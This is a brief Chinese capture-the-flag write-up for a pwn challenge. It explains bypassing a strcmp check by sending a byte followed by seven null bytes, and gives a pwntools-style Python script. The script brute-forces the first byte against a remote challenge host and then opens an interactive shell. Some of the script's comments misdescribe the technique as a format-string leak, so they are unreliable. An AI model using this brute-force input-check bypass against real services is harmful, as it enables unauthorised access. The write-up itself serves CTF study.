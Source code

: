 他的随机数长这样

![1730036641781](/images/2024/2024-10-27-pwn-wp/1730036641781.png)

哈哈哈

不过看看main函数的那个strcmp,这个函数可以绕过

大概思路:输入buf,头一位用来爆破,后边七位用\x00补全(有段时间没看cannary爆破了,抽时间看看)

```python
# 假设Pwnmodules是一个自定义模块，它封装了pwntools的功能，或者是pwntools的一个别名  
from Pwnmodules import *  
import ctypes  
  
# 创建一个远程目标对象，指定IP地址和端口号  
target = Target("27.25.151.80", 33613)  
  
# 设置pwntools的上下文环境，指定日志级别和架构  
context(log_level='debug', arch='amd64')  
  
# 向远程服务发送数据，尝试触发漏洞（可能是格式化字符串漏洞）  
# 这里发送了一个字节0和7个空字节（\x00），可能是为了绕过某些输入验证或填充  
target.sla("please input your text: ", bytes([0]) + b'\x00' * 7)  
  
# 尝试通过遍历0到0xff的字节值来找到能够触发特定响应的输入  
# 这种技术通常用于格式化字符串漏洞的利用中，以泄露内存信息  
for i in range(0xff):  
    try:  
        # 发送数据并等待响应，这里假设服务会返回一个特定的错误消息  
        target.ru("No,guess again!!!")  
        # 再次发送数据，这次是用遍历到的字节值替换第一个字节  
        target.sla("please input your text: ", bytes([i]) + b'\x00' * 7)  
        # 如果到这里没有抛出异常，则继续下一次循环  
        continue  
    except:  
        # 如果捕获到异常（可能是由于服务崩溃、连接断开等），则尝试获取交互式shell  
        # 但这里有一个逻辑问题：一旦进入except块，就会立即尝试获取shell，然后退出循环  
        # 这可能并不是您想要的行为，因为您可能想要记录哪个字节值触发了异常  
        target.inter()  
        # 注意：一旦进入except块并执行了target.inter()，下面的target.inter()将不会被执行  
  
# 下面的target.inter()在上面的循环中如果触发了异常则不会被执行  
# 如果循环正常结束（即没有触发异常），则这里的target.inter()将是唯一尝试获取shell的机会   
target.inter()
```
